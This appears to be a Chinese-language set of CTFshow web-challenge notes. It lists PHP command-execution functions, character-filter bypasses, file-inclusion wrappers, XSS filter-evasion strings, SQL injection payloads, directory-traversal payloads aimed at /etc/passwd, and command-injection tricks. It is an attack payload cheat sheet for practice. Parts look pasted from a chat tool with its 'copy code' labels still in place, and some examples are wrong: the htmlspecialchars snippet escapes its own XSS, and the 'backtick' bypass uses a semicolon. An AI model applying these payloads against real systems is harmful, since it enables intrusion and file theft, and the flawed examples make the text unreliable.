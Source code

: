 # CTFshow-web

## 命令执行

### 执行命令的方法
```
system()

shell_exec()

`

popen
```

## 规避字符

规避空格：  
`%20，%09、$IFS$9、${IFS}`

注意：上面的$需要用反斜杠进行转义

规避其他字符：  
过滤的flag，php，点，可以用通配符*或?代替  

## 文件包含

造成文件包含漏洞的函数通常有：
include、require、include_once、require_once、highlight_file、show_source、file_get_contents、fopen、file、readline
2.data协议
用法：
data://text/plain,xxxx(要执行的php代码)
data://text/plain;base64,xxxx(base64编码后的数据)
3.php://协议
php://input,用于执行php代码，需要post请求提交数据。


1. 绕过字符串过滤
PHP中，字符串过滤通常通过str_replace、preg_replace等函数实现。常见的绕过方法包括：

使用字符编码
例如，过滤掉了script标签，可以通过使用HTML实体来绕过：

```
<?php
echo htmlspecialchars("<scr<script>ipt>alert('XSS');</scr<script>ipt>");
?>
```

利用大小写敏感
有些过滤器对大小写敏感，可以尝试使用混合大小写：

```
<?php
echo "<ScRipT>alert('XSS');</ScRipT>";
?>
```

2. 绕过SQL注入过滤
对于SQL注入，通常的绕过方法包括：

利用注释符
sql
复制代码
SELECT * FROM users WHERE id=1 OR 1=1-- 
利用联合查询
sql
复制代码
SELECT * FROM users WHERE id=1 UNION SELECT 1, 'another_user', 'password';
使用双引号或单引号闭合
sql
复制代码
```
SELECT * FROM users WHERE username='' OR 1=1-- '
```
3. 绕过目录遍历过滤
对于目录遍历，可以尝试：

使用双重URL编码
如果过滤掉了../，可以尝试使用双重URL编码：

bash
复制代码
```
../../etc/passwd -> %252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
使用长路径
有时候，可以通过长路径来绕过过滤：

bash
复制代码
```
....//....//....//etc/passwd
```
4. 绕过命令注入过滤
对于命令注入，可以尝试：

利用特殊字符
如果过滤掉了|，可以尝试使用换行符：

bash
复制代码
```
`command
another_command`
```
使用反引号
如果过滤掉了&&，可以尝试使用反引号：

bash
复制代码
```
`command1; command2`
```


